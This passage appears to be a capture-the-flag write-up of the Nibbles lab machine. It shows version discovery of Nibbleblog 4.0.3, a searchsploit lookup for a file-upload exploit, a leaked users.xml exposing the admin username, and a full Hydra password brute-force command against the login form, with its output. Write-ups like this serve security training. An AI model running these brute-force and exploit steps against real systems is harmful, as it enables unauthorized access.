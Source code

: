 ```
=====================================================
```

Update.php reveals the version of the application "Nibbleblog 4.0.3 "Coffee" ©2009 - 2014 | Developed by Diego Najar"

admin.php reveals a login page.


## Initial Compromise

Running searchsploit on nibbleblog:

```
root@kali:~/htb/nibbles# searchsploit nibbleblog
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                                                                              | exploits/php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                                                               | exploits/php/remote/38489.rb
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Nibbleblog 4.0.3 - Arbitrary File Upload matches the version on our victim! However, the exploit requires a valid login to work. 

So let's focus on the login page to see if we can find any credentials.

The following file "http://10.10.10.75/nibbleblog/content/private/users.xml" reveals a user of the application

```
<users><user username="admin"><id type="integer">0</id><session_fail_count type="integer">2</session_fail_count><session_date type="integer">1541967082</session_date></user>
```

So we have a username "admin".

Running Hydra against it shows a lot of False Positives.

```
root@kali:~/htb/nibbles# hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASSWORD^:F=Incorrect"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-11 21:23:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://10.10.10.75:80//nibbleblog/admin.php:username=^USER^&password=^PASSWORD^:F=Incorrect
[80][http-post-form] host: 10.10.10.75   login: admin   password: qwerty
[80][http-post-form] host: 10.10.10.75   login: admin   password: pussy
[80][http-post-form] host: 10.10.10.75   login: admin   password: 12345678
[80][http-post-form] host: 10.10.10.75   login: admin   password: baseball
[80][http-post-form] host: 10.10.10.75   login: admin   password: 123456
```